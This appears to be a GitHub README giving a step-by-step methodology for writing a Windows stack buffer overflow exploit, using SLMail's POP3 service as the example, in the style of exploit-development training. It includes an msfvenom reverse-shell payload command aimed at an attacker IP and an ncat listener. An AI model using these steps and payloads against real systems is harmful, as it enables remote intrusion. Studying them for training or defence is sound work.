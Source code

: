 # ExpDev

-------------------------------------------------------------------------------------------------------------------------------
Buffer Overflow
-------------------------------------------------------------------------------------------------------------------------------
* Identify the vuln port (netstat -noa on target // nmap the target).
* Attach the procces to Immunity debugger and "Play" it on the target.
* Edit Fuzzer.py (IP address, port and what it sends in the socket - Ex. sLmail_pop3_pass_fuzzer.py in repo).
* Fuzz the target.
* Write a POC that replicates the crash (Ex. slmail_pop3_replicated_crash.py in repo).
* Locate those 4 A's that overwrite the EIP register.
* Send a unique string in order to identify the EIP offset. The size of this string is equal to the amount of bytes that crash the service. Use pattern_create in kali (Ex. pattern_create.rb -l 2700 --> place the output in buffer variable. See  	slmail_pop3_pattern_create.py in repo).
* Use pattern_offset.rb to discover the offset of these specific 4 bytes in the unique byte string and edit buffer variable (Ex. pattern_offset.rb -l 2700 -q 39694438. See slmail_pop3_pattern_offset.py
in repo).
* Locate space for the shellcode - a standart reverse shell payload requires about 350-400 bytes of space. Locate a convenient location to place the shellcode using the crash in Immunity debugger (Ex. C's in slmail crash are 90 bytes. You can increase the buffer length in order to make the shellcode fit. Ex. Increased buffer in slmail from 2700 to 3500. See slmail_pop3_locate_space.py in repo).
* Check for bad characters - an easy way to do this is to send all possible chars, from 0x00 to 0xff, as part of the buffer variable. See how these chars are dealt with by the app in memory dump of ESP register (Follow in dump - 01 02 03 etc..), after the crash (Ex. 0x00 - null byte is always bad. See slmail_pop3_bad_chars.py).
* Run the badchars check again and again till it doesnt trancate the values in memory (delete the relevnt chars before running the check in buffer, of course).
* Find a return address - using Mona.py in the Immunity debugger you should look for module that is not protected by DEP/ASLR and has a memory range that does not cotain bad characters.
Run "!mona modules" in Immunity to find one.
Run nasm_shell.rb in kali in order to find an opcode that is equivilent to JMP ESP command.

Example:
root@Pizduk:/tmp# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp

Search for this opcode in all sections of the .dll file that found in modules by this command in Immunity:
"!mona find -s "[OPCODE_IN_HEXA]" -m <.DLL_FILE>".

Example:
!mona find -s "\xff\xe4" -m slmfc.dll

Choose one that doesnt contain bad chars (double check that inside the debugger - Ex. address like 0x5f4a358f).
* Edit the exploit and add this address instead of EIP (B's) place (See slmail_pop3_return_address.py in repo)
* Place a breakpoint in this address and check it actually reaches it.
* Generate a shellcode using MSFVENOM (msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACKERS_IP] LPORT=[ATTACKERS_PORT] EXITFUNC=thread -f c -a x86 --platform windows -e x86/shikata_ga_nai -b "<BAD_CHARS>").

Example:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.3 LPORT=443 EXITFUNC=thread -f c -a x86 --platform windows -e x86/shikata_ga_nai -b "\x00\x0a\x0d"

* Place this shellcode in the exploit POC and make sure to add NOP as padding for the decoder (See slmail_pop3_shellcode.py in repo). 
* Start a listener on attackers machine and get a shell (ncat -lvnp [LISTENING_PORT]).
-------------------------------------------------------------------------------------------------------------------------------
